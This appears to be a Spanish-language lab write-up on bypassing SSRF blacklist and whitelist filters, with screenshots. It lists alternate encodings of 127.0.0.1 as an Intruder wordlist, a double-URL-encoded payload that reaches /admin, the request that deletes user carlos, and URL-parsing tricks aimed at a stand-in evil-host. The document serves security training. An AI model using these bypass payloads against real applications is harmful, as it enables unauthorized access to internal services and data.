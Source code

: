 
## SSRF with blacklist-based input filters

Algunas aplicaciones bloquean entradas que contienen nombres de host como 127.0.0.1 y localhost, o URL confidenciales como /admin. En esta situación, a menudo se puede eludir el filtro utilizando las siguientes técnicas:

- Utilice una representación IP alternativa de 127.0.0.1, como 2130706433, 017700000001 o 127.1.
- Registre su propio nombre de dominio que se resuelva en 127.0.0.1. Puede utilizar spoofed.burpcollaborator.net para este fin.
- Oculte las cadenas bloqueadas utilizando la codificación de URL o la variación de mayúsculas y minúsculas.
- Proporcione una URL que controle y que redirija a la URL de destino. Pruebe a utilizar diferentes códigos de redireccionamiento, así como diferentes protocolos para la URL de destino. Por ejemplo, se ha demostrado que cambiar de una URL http: a https: durante el redireccionamiento permite eludir algunos filtros anti-SSRF.



## Lab: SSRF with blacklist-based input filter

![20250919112614.png](20250919112614.png)

En el sitio web encontraremos diversos artículos 

![20250919114238.png](20250919114238.png)

Dentro de los detalles de los artículos podemos ver o consultar el stock

![20250919114302.png](20250919114302.png)

![20250919114339.png](20250919114339.png)

Al querer enumerar los activos del `http://localhost:8080`, vemos que este nos da un mensaje de que esto fue bloqueado

![20250919114444.png](20250919114444.png)

`http://localhost:8080` `"External stock check blocked for security reasons"`

Para bypasear esto, usaremos en intruder y en ella una lista de posibles bypass

![20250919115938.png](20250919115938.png)

- Wordlist usada:
```c
http://0.0.0.0
http://0.0.0.0
http://0.0.0.0
http://localhost
https://127.0.0.1
http://[::]
http://0000::1
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0
http://0177.0.0.1/
http://o177.0.0.1/
http://0o177.0.0.1
http://q177.0.0.1/
http://[0:0:0:0:0:ffff:127.0.0.1]
http://0/
http://127.1
http://127.0.1
```

Al terminar, observamos que tenemos dos formas de bypasear

```c
http://127.1
http://127.0.1
```

![20250919115900.png](20250919115900.png)

Usaremos la primera, esto enviando con url encode. Para ingresar al `/admin` también nos restringen por lo que a `admin` encodee dos veces en url encode y logre bypasearlo.

![20250919120413.png](20250919120413.png)

```c
stockApi=http%3a%2f%2f127.1%2f%2561%2564%256d%2569%256e
```

![20250919120446.png](20250919120446.png)

Una vez que podemos ingresar como administradores, podemos eliminar la cuenta del usuario carlos.

```c
<a href="/admin/delete?username=carlos">
```

![20250919120632.png](20250919120632.png)

Luego de enviar la request, podemos observar que eliminamos exitosamente al usuario carlos

![20250919120757.png](20250919120757.png)


Algunas aplicaciones solo permiten entradas que coincidan con una lista blanca de valores permitidos. El filtro puede buscar una coincidencia al principio de la entrada o dentro de ella. Es posible que pueda eludir este filtro aprovechando las inconsistencias en el análisis de la URL.

La especificación de la URL contiene una serie de características que pueden pasarse por alto cuando las URL implementan un análisis y una validación ad hoc utilizando este método:

Puede incrustar credenciales en una URL antes del nombre de host, utilizando el carácter @. Por ejemplo:

```c
https://expected-host:fakepassword@evil-host
```

Puede utilizar el carácter # para indicar un fragmento de URL. Por ejemplo:

```c
https://evil-host#expected-host
```

Puede aprovechar la jerarquía de nombres DNS para colocar la entrada requerida en un nombre DNS completo que usted controle. Por ejemplo:

```c
https://expected-host.evil-host
```

Puede codificar caracteres en la URL para confundir el código de análisis de la URL. Esto resulta especialmente útil si el código que implementa el filtro maneja los caracteres codificados en la URL de forma diferente al código que realiza la solicitud HTTP back-end. También puede intentar codificar los caracteres dos veces; algunos servidores decodifican recursivamente en la URL la entrada que reciben, lo que puede dar lugar a más discrepancias.
Puede utilizar combinaciones de estas técnicas juntas.